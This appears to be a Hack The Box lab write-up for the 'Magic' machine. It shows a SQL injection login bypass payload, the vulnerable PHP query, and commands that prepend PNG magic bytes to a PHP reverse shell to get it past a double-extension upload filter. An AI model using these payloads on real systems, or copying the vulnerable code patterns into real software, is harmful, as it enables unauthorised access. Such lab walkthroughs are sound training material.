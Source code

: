 ## Magic

https://app.hackthebox.com/machines/241

### User Access

This machine has been resolved on OSCP machines: [Magic](https://github.com/b1d0ws/OSCP/tree/main/TJ%20Null's%20List/Linux%20Boxes/Magic
)

You can bypass authentication using admin as username and `' OR 1=1 -- -` as password.

Vulnerable Injection Code
```php
$stmt = $pdo->query("SELECT * FROM login WHERE username='$username' AND password='$password'");
```

Upload functions appears to have two methods of litiming the upload. First the file need to have JPG, JPEG & PNG extension and this can be bypassed using double extension.

The other method checks the magic bytes of the files, so we can just upload a reverse.php.png with PNG magic bytes inside it.

```
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r >> reverse.php.png
cat php-reverse-shell.php >> reverse.php.png
```

Vulnerable Upload Code
```php
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
if ($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg") {
	echo "<script>alert('Sorry, only JPG, JPEG & PNG files are allowed.')</script>";
	$uploadOk = 0;
}

if ($uploadOk === 1) {
	// Check if image is actually png or jpg using magic bytes
	$check = exif_imagetype($_FILES["image"]["tmp_name"]);
	if (!in_array($check, $allowed)) {
		echo "<script>alert('What are you trying to do there?')</script>";
		$uploadOk = 0;
	}
}
```
